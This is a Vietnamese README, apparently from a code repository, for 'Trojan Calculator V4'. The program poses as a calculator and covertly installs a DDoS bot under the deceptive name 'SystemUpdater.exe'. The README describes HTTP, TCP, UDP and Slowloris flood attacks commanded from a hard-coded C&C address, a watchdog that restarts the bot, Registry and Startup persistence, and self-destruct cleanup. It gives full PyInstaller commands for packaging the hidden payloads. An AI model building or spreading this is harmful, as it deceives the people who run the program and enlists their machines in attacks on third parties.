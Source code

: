 # Trojan Calculator - Phiên Bản 4 (V4)

## Tổng Quan

Phiên bản 4 của dự án Trojan Calculator tích hợp bot tấn công DDoS vào trojan, cho phép thực hiện các cuộc tấn công như HTTP Flood, TCP Flood, UDP Flood, và Slowloris. Trojan tiếp tục ngụy trang dưới dạng máy tính cầm tay (GUI Tkinter) với icon tùy chỉnh, giữ nguyên cơ chế watchdog và persistence từ phiên bản trước.

## Tính Năng

- **Giao Diện Máy Tính Cầm Tay**: Giao diện tính toán cơ bản với icon tùy chỉnh.
- **Bot DDoS (`SystemUpdater.exe`)**: 
  - Chạy ngầm, thực hiện tấn công DDoS khi nhận lệnh từ máy chủ C&C.
  - Sử dụng mã hóa RSA với OAEP padding cho giao tiếp an toàn.
  - Hỗ trợ cấu hình qua tham số dòng lệnh (`cnc_ip`, `cnc_port`, `offset`, `rate`).
- **Watchdog (`watchdog.exe`)**: 
  - Độc lập, giám sát và khởi động lại `SystemUpdater.exe` nếu bị kill.
  - Ghi log vào `%APPDATA%\watchdog_log.txt`.
- **Cơ Chế Duy Trì**: Tự động chạy `watchdog.exe` từ Registry hoặc Startup folder khi khởi động máy.
- **Tự Hủy**: Dọn dẹp file, Registry, và log khi thoát.
- **Ghi Nhật Ký**: 
  - `%APPDATA%\trojan.log`: Hoạt động của trojan.
  - `%APPDATA%\system_log.txt`: Trạng thái và tấn công của bot.

## Cấu Trúc

- **`calculator_trojan_V4.py`**: Script chính, khởi chạy GUI, triển khai bot và watchdog.
- **`bot_test_V4.py`**: Script bot (đóng gói thành `SystemUpdater.exe`) thực hiện tấn công DDoS.
- **`watchdog.py`**: Script watchdog (đóng gói thành `watchdog.exe`) giám sát bot.

## Cách Xây Dựng và Chạy

### Cài Đặt Thư Viện
```bash
pip install cryptography
```

### Đóng Gói `bot_test_V4.py`
```bash
pyinstaller --noconsole --onefile --icon=SystemUpdater.ico --hidden-import=psutil --hidden-import=cryptography bot_test_V4.py
copy dist\bot_test_V4.exe SystemUpdater.exe
```

### Đóng Gói `watchdog.py`
```bash
pyinstaller --noconsole --onefile --icon=watchdog.ico --hidden-import=psutil watchdog.py
copy dist\watchdog.exe watchdog.exe
```

### Đóng Gói `calculator_trojan_V4.py`
- Đảm bảo `SystemUpdater.exe` và `watchdog.exe` đã có trong thư mục hiện tại.
```bash
pyinstaller --noconsole --onefile --icon=calculator.ico --add-data "SystemUpdater.exe;." --add-data "watchdog.exe;." --hidden-import=psutil --hidden-import=tkinter --hidden-import=pywin32 calculator_trojan_V4.py
```

### Chạy
- Chạy `calculator_trojan_V4.exe` với quyền Administrator.
- Bot kết nối với máy chủ C&C (mặc định `18.142.246.109:5001`) và chờ lệnh tấn công.
- Kiểm tra `%APPDATA%\system_log.txt` để theo dõi hoạt động bot.

### Tùy Chọn Dòng Lệnh (cho `SystemUpdater.exe`)
```bash
SystemUpdater.exe --cnc-ip <IP> --cnc-port <PORT> --offset <OFFSET> --rate <RATE>
```
- `--cnc-ip`: Địa chỉ IP của C&C (mặc định: `18.142.246.109`).
- `--cnc-port`: Cổng của C&C (mặc định: `5001`).
- `--offset`: Độ lệch thời gian (mặc định: `0`).
- `--rate`: Tốc độ tấn công (mặc định: `1ms`).

## Hạn Chế

- Cần quyền Administrator để truy cập `%APPDATA%` và Registry.
- Máy chủ C&C phải đang chạy để bot hoạt động.
- Chỉ thử nghiệm trên Windows.

## Lưu Ý

- Đảm bảo file icon `SystemUpdater.ico`, `watchdog.ico`, và `calculator.ico` có trong thư mục dự án.
- Cài đặt thư viện `cryptography` trước khi đóng gói.
